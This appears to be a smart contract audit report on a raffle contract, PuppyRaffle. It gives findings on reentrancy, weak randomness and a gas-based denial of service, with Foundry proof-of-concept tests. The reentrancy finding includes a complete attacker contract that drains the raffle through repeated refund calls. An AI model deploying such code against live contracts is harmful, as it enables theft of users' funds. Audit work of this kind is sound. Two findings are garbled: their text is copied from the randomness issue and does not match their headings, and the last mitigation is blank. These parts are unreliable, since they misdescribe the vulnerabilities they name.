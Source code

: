 ### [H-1] Function `PuppyRaffle::refund` is vulnerable to reenteracy attacks.

**Description:** The function `PuppyRaffle::refund` sends an external call before updating the states. This external call can be called multiple times before it ever reaches the `players[playerIndex] = address(0)`.

**Impact:** Impact of reenteracy attacks can be critical. Attacker can drain the contract funds by calling back to `PuppyRaffle` contract once they receive funds using `fallback()` or `recive()`. Which calls back the `refund()` again before it ever gets a chance to update the balance, in this case removing them from `players[]`. They can drain the contract until there is nothing left.

**Proof of Concept:** Place the following test in `PuppyRaffle.t.sol`.

<details>
<summary> POC </summary>

```javascript


    function test_reenterancyAttack() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReenterancyAttacker attackerContract = new ReenterancyAttacker(
            puppyRaffle
        );
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract)
            .balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        // executing attack
        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker balance", startingAttackContractBalance);
        console.log("starting puppyRaffle balance", startingPuppyRaffleBalance);

        console.log(
            "ending attacker balance",
            address(attackerContract).balance
        );
        console.log("ending puppyRaffle balance", address(puppyRaffle).balance);
    }

contract ReenterancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 enteranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        enteranceFee = _puppyRaffle.entranceFee();
    }

    //enter raffle
    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: enteranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _steal() internal {
        if (address(puppyRaffle).balance >= enteranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _steal();
    }

    receive() external payable {
        _steal();
    }
}

```

</details>

**Recommended Mitigation:** Reenterancy attack can be mitigated by following some best practices when dealing with external calls.

- Make checks first
- Update variables
- Lastly external calls

Another solution for this would be using Openzeppelins `ReentrancyGuard` contract, it provides a modifier to functions to prevent these attacks from happening.

### [H-2] Function `PuppyRaffle::selectWinner` uses insecure ways of generating random winner for `winnerIndex`.

**Description:** The way `selectWinner` is implemented is very insecure way to create a winner. Thas in the past been exploited in the past. ex - Meebit NFTs
The winner can be anticipated in this case and using specific methods attacker can.

**Impact:** Miners can hold the transaction and keep rerunning it until they get the winning index of their own

**Proof of Concept:** Case study Meebit NFTs

**Recommended Mitigation:** Recommended and safe way to generate random number is using Chainlink VRF.

### [H-3] Overflow and Underflow 

**Description:** The way `selectWinner` is implemented is very insecure way to create a winner. Thas in the past been exploited in the past. ex - Meebit NFTs
The winner can be anticipated in this case and using specific methods attacker can.

**Impact:** Miners can hold the transaction and keep rerunning it until they get the winning index of their own

**Proof of Concept:** Case study Meebit NFTs

**Recommended Mitigation:** Recommended and safe way to generate random number is using Chainlink VRF.

### [H-3] `PuppyRaffle::selectWinner` uses very unsafe require statement, which can lead to not being able to withdraw the fee.

**Description:** The way `selectWinner` is implemented is very insecure way to create a winner. Thas in the past been exploited in the past. ex - Meebit NFTs
The winner can be anticipated in this case and using specific methods attacker can.

**Impact:** Miners can hold the transaction and keep rerunning it until they get the winning index of their own

**Proof of Concept:** Case study Meebit NFTs

**Recommended Mitigation:** Recommended and safe way to generate random number is using Chainlink VRF.

### [M-#] Function `PuppyRaffle::enterRaffle` is exposed to DOS(Denial of service) attacks, looping through unchecked players array.

**Description:** Function `PuppyRaffle::enterRaffle` is prone to DOS attacks. It iterates unbouded through the list `players`, makes it more gas expensive over time could potentially end up being over block gas limit.Every single player added will require additional check to make on top of already existing players resulting directly in increasing gas cost.

**Impact:** Some third party could block access to this function if they run this function multiple times, making it more gas expensive over time could end up being over block gas limit and causing the `PuppyRaffle::enterRaffle` to not be executable anymore.

**Proof of Concept:** Place the following test in `PuppyRaffle.t.sol`.

<details>
<summary> POC </summary>

```javascript

    function test_denialOfService() public {
        // address[] memory players = new address[](1);
        // players[0] = playerOne;
        // puppyRaffle.enterRaffle{value: entranceFee}(players);
        // assertEq(puppyRaffle.players(0), playerOne);
        vm.txGasPrice(1);

        uint256 playerNumber = 500;
        address[] memory players = new address[](playerNumber);
        for (uint256 i = 0; i < playerNumber; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasLeft = gasleft();

        uint256 gasUsedFirst500 = (gasStart - gasLeft) * tx.gasprice;

        console.log(gasUsedFirst500);

        // Check gas for next 500 players

        address[] memory playersNext = new address[](playerNumber);
        for (uint256 i = 0; i < playerNumber; i++) {
            playersNext[i] = address(i + playerNumber);
        }

        uint256 gasStartAfter = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(
            playersNext
        );
        uint256 gasLeftAfter = gasleft();

        uint256 gasUsedLast500 = (gasStartAfter - gasLeftAfter) * tx.gasprice;

        console.log(gasUsedLast500);

        assert(gasUsedFirst500 < gasUsedLast500);
    }

```

</details>

**Recommended Mitigation:**
Severity: HIGH
